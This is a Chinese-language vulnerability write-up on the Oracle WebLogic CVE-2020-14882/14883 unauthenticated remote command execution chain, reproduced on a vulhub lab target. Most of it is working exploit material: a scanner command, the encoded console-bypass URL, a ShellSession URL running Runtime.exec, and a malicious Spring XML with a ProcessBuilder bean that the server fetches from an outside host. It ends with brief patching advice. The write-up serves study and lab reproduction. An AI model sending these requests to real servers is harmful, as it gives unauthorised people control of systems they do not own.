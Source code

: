 ```yaml
---
category: 网络安全
tag: 漏洞分析
---
```


# 漏洞名称：Weblogic 管理控制台未授权远程命令执行漏洞

## 漏洞介绍

> [国家信息安全漏洞库 (cnnvd.org.cn)](http://www.cnnvd.org.cn/index.html)

 Weblogic是Oracle公司推出的J2EE应用服务器，Oracle WebLogic Server 多版本的Oracle Fusion Middleware 存在安全漏洞，该漏洞使未经身份验证的攻击者可以通过HTTP访问网络，从而破坏Oracle WebLogic Server。在2020年10月的更新中，Oracle官方修复了两个长亭科技安全研究员@voidfyoo 提交的安全漏洞，分别是CVE-2020-14882和CVE-2020-14883。

CVE-2020-14882允许未授权的用户绕过管理控制台的权限验证访问后台，CVE-2020-14883允许后台任意用户通过HTTP协议执行任意命令。使用这两个漏洞组成的利用链，可通过一个GET请求在远程Weblogic服务器上以未授权的任意用户身份执行命令。

参考链接：

- https://www.oracle.com/security-alerts/cpuoct2020traditional.html
- https://testbnull.medium.com/weblogic-rce-by-only-one-get-request-cve-2020-14882-analysis-6e4b09981dbf

------

### 漏洞危害

远程代码执行漏洞 （CVE-2020-14882）POC 已被公开，未经身份验证的远程攻击者可通过构造特殊的 HTTP GET 请求，结合 CVE-2020-14883 漏洞进行利用，利用此漏洞可在未经身份验证的情况下直接接管 WebLogic Server Console ，并执行任意代码，利用门槛低，危害巨大。

------

### 影响范围

* weblogic 10.3.6.0.0
* weblogic 12.1.3.0.0
* weblogic 12.2.1.3.0
* weblogic 12.2.1.4.0
* weblogic 14.1.1.0.0

------

## 漏洞利用


---

### 靶机环境

vulhub/weblogic/CVE-2020-14882


---

### 利用方法1

**探测确认**

使用 weblogicScanner(https://github.com/0xn0ne/weblogicScanner)探测是否存在该漏洞

```
python3 ws.py -v CVE-2020-14882 -t 192.168.1.189:7001
```

![01](./img/weblogic_CVE-2020-14882/01.png)

首先测试权限绕过漏洞（CVE-2020-14882），访问以下URL，即可未授权访问到管理后台页面：

```
http://your-ip:7001/console/css/%252e%252e%252fconsole.portal
```

![02](./img/weblogic_CVE-2020-14882/02.png)

成功登录到后台页面。

虽然利用漏洞CVE-2020-14882成功登录到后台页面，但当前用户是低权限用户，并不能执行命令。此时需要用到第二个漏洞CVE-2020-14883。这个漏洞的利用方式有两种，一是通过`com.tangosol.coherence.mvel2.sh.ShellSession`，二是通过`com.bea.core.repackaged.springframework.context.support.FileSystemXmlApplicationContext`。

直接访问如下URL，即可利用com.tangosol.coherence.mvel2.sh.ShellSession执行命令：

```
http://your-ip:7001/console/css/%252e%252e%252fconsole.portal?_nfpb=true&_pageLabel=&handle=com.tangosol.coherence.mvel2.sh.ShellSession("java.lang.Runtime.getRuntime().exec('touch%20/tmp/success1');")
```

![04](./img/weblogic_CVE-2020-14882/04.png)

页面显示404，回到服务器端执行如下命令登录到容器里面

```
docker exec -i -t 容器id /bin/bash
```

![03](./img/weblogic_CVE-2020-14882/03.png)

可以看到success1成功创建，命令执行成功。

这个利用方法只能在Weblogic 12.2.1以上版本利用，因为10.3.6并不存在`com.tangosol.coherence.mvel2.sh.ShellSession`类。

### 利用方法2

`com.bea.core.repackaged.springframework.context.support.FileSystemXmlApplicationContext`是一种更为通杀的方法，最早在CVE-2019-2725被提出，对于所有Weblogic版本均有效。

首先，我们需要构造一个XML文件，并将其保存在Weblogic可以访问到的服务器上，如`http://example.com/rce.xml`：

```xml
<?xml version="1.0" encoding="UTF-8" ?>
<beans xmlns="http://www.springframework.org/schema/beans"
   xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
   xsi:schemaLocation="http://www.springframework.org/schema/beans http://www.springframework.org/schema/beans/spring-beans.xsd">
    <bean id="pb" class="java.lang.ProcessBuilder" init-method="start">
        <constructor-arg>
          <list>
            <value>bash</value>
            <value>-c</value>
            <value><![CDATA[touch /tmp/success2]]></value>
          </list>
        </constructor-arg>
    </bean>
</beans>
```

然后通过如下URL，即可让Weblogic加载这个XML，并执行其中的命令：

```
http://your-ip:7001/console/css/%252e%252e%252fconsole.portal?_nfpb=true&_pageLabel=&handle=com.bea.core.repackaged.springframework.context.support.FileSystemXmlApplicationContext("http://10.82.234.169:8000/rce.xml")
```

![06](./img/weblogic_CVE-2020-14882/06.png)

这个利用方法也有自己的缺点，就是需要Weblogic的服务器能够访问到恶意XML。

------

## 威胁防护建议

1. Oracle官方最新漏洞修复补丁；
2. 临时关闭后台/console/console.portal的对外访问

